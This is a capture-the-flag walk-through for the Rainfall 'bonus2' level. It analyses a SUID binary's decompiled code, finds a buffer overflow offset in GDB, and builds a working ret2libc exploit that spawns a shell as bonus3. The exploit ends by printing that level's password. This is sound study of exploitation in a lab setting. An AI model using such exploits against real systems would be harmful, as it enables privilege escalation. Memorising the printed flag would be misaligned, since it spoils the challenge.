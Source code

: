 # Walk-through bonus2

## Introduction
bonus2 is part of the Rainfall challenge series, where the goal is to escalate privileges by exploiting a vulnerable binary. This walk-through covers analyzing the binary, identifying vulnerabilities, and obtaining elevated access.

## Security Checks
Examining the binary's security mechanisms reveals that it lacks several modern protections, making it more susceptible to exploitation:

```bash
bonus2@RainFall:~$ checksec --file bonus2 
RELRO           STACK CANARY      NX            PIE             RPATH      RUNPATH      FILE
No RELRO        No canary found   NX disabled   No PIE          No RPATH   No RUNPATH   bonus2
```
**Key observations:**
> **No RELRO** : The binary does not protect against GOT overwrite attacks.

> **No stack canary** : Buffer overflow attacks are possible.

> **NX disabled** : Stack is executable, allowing shellcode execution.

> **No PIE** : The binary has a fixed memory layout, making exploitation easier.

### Analyzing `bonus0`

After running the command `ls -l bonus2`, we observe the following output:
```
-rwsr-s---+ 1 bonus3 users 5664 Mar  6  2016 bonus2
```

From this output, we can see that the binary `bonus2` is set with **SUID (Set User ID)** and **SGID (Set Group ID)** permissions. This means:

- The `s` in the owner (`rws`) and group (`r-s`) permission bits indicates that the program will run with the privileges of its owner (`bonus3`) and group (`users`), regardless of who executes it.
- In other words, when any user runs this program, it will execute as if it were run by the `bonus3` user.

## Debugging
Consider the following session:

```bash
bonus2@RainFall:~$ ./bonus2
bonus2@RainFall:~$ ./bonus2 test1
bonus2@RainFall:~$ ./bonus2 test1 test2
Hello test1 
```

After running *bonus2* with various arguments, we observe that when two arguments are provided (e.g., `test1` and `test2`), the program simply outputs `Hello test1`.

## Code Analysis

The relevant functions are:

### 1. `main` Function

```c
int __cdecl main(int argc, const char **argv, const char **envp)
{
  char v4[76];       // [esp+0h] [ebp-ACh] BYREF
  char dest[76];      // [esp+50h] [ebp-5Ch] BYREF
  char *v6;         // [esp+9Ch] [ebp-10h]

  if ( argc != 3 )
    return 1;
  memset(dest, 0, sizeof(dest));
  strncpy(dest, argv[1], 0x28u);
  strncpy(&dest[40], argv[2], 0x20u);
  v6 = getenv("LANG");
  if ( v6 )
  {
    if ( !memcmp(v6, "fi", 2u) )
    {
      language = 1;
    }
    else if ( !memcmp(v6, "nl", 2u) )
    {
      language = 2;
    }
  }
  qmemcpy(v4, dest, sizeof(v4));
  return greetuser(v4[0]);
}
```

**Explanation:**

- The function declares two 76-byte buffers (`v4` and `dest`) and a pointer (`v6`).
- It checks if exactly 3 arguments are provided. If not, the program exits with status 1.
- It clears the `dest` buffer, then copies the first command-line argument into `dest` (up to 40 bytes) and the second argument into `dest` starting at offset 40 (up to 32 bytes).
- It retrieves the `LANG` environment variable; if it starts with `"fi"` or `"nl"`, it sets the global variable `language` accordingly.
- Finally, it copies the content of `dest` into `v4` and calls the `greetuser` function with the first byte of `v4`.

### 2. `greetuser` Function

```c
int __cdecl greetuser(char src)
{
  __int128 dest;    // [esp+10h] [ebp-48h] BYREF
  __int16 v3;       // [esp+20h] [ebp-38h]
  char v4;          // [esp+22h] [ebp-36h]

  switch ( language )
  {
    case 1:
      dest = xmmword_8048717;
      v3 = *((_WORD *)&xmmword_8048717 + 8);
      v4 = *((_BYTE *)&xmmword_8048717 + 18);
      break;
    case 2:
      strcpy((char *)&dest, "Goedemiddag! ");
      break;
    case 0:
      strcpy((char *)&dest, "Hello ");
      break;
  }
  strcat((char *)&dest, &src);
  return puts((const char *)&dest);
}
```

**Explanation:**

- The function declares a 128-bit variable `dest`, a 16-bit variable `v3`, and a character `v4`.
- Depending on the value of the global variable `language`, it initializes `dest` with a greeting:
  - If `language` is 1, it uses a pre-defined value stored in `xmmword_8048717`.
  - If `language` is 2, it copies `"Goedemiddag! "` into `dest`.
  - If `language` is 0 (or any other value), it copies `"Hello "` into `dest`.
- It then concatenates the input character (passed as the first byte of the buffer) to the greeting and prints the final string using `puts`.

## Determining the Offset

We use GDB to determine the offset:

```bash
gdb-peda$ r `python -c 'print("A" * 40)'` `python -c 'print("A" * 18 +  "BBBB")'`
Hyvää päivää AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAABBBB
```

**GDB Register Output:**

```
[----------------------------------registers-----------------------------------]
EAX: 0x51 ('Q')
EBX: 0xbffff690 ('A' repeated 58 times, followed by "BBBB")
ECX: 0xffffffff 
EDX: 0xb7fd28b8 --> 0x0 
ESI: 0xbffff6dc --> 0xbfffff33 --> 0x4c006966 ('fi')
EDI: 0xbffff68c --> 0xb7e5ec73 (add    ebx,0x172381)
EBP: 0x41414141 ('AAAA')
ESP: 0xbffff640 --> 0x41414100 ('')
EIP: 0x42424242 ('BBBB')
EFLAGS: 0x210282 (carry, parity, adjust, zero, sign, trap, interrupt, direction, overflow)
```

The appearance of `BBBB` in the EIP register indicates that we control the return address. The first argument’s buffer fills up 40 bytes, and the second argument’s buffer reaches the return address after 18 additional bytes.

## Exploitation Strategy

We have determined the offset, and we note that the stack is executable because NX is disabled and PIE is not enabled. This means we could either inject shellcode or use a ret2libc attack. Since we have exploited previous levels by injecting shellcode, why not use ret2libc for this level?

### RET2LIBC Overview

A ret2libc (return-to-libc) attack does not require shellcode. Instead, the attacker reuses existing library code—specifically, the `system` function—to execute commands on the target system.

To build our exploit, we need the addresses of `system` and `/bin/sh`.

1. Start GDB with *bonus2* and set a breakpoint.
2. Execute the following commands:

```bash
gdb-peda$ p system 
$1 = {<text variable, no debug info>} 0xb7e6b060 <system>

gdb-peda$ find /bin/sh
Searching for '/bin/sh' in: None ranges
Found 1 result(s), display max 1 items:
libc : 0xb7f8cc58 ("/bin/sh")
```
Now we have all the ingredients needed for our payload:
- The offset determined earlier.
- The address of `system` (`0xb7e6b060`).
- A fake return address (if needed).
- The address of `/bin/sh` (`0xb7f8cc58`).

## Proof-of-Concept (Working Exploit) 
``` bash
bonus2@RainFall:~$ export LANG=fi
bonus2@RainFall:~$  ./bonus2 `python -c 'print("A" * 40)'` `python -c 'print("A" * 18 +  "\x60\xb0\xe6\xb7" + "BBBB" + "\x58\xcc\xf8\xb7")'`
Hyvää päivää AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA`��BBBBX���
$ whoami
bonus3
$ cat /home/user/bonus3/.pass
71d449df0f960b36e0055eb58c14d0f5d0ddc0b35328d657f91cf0df15910587
```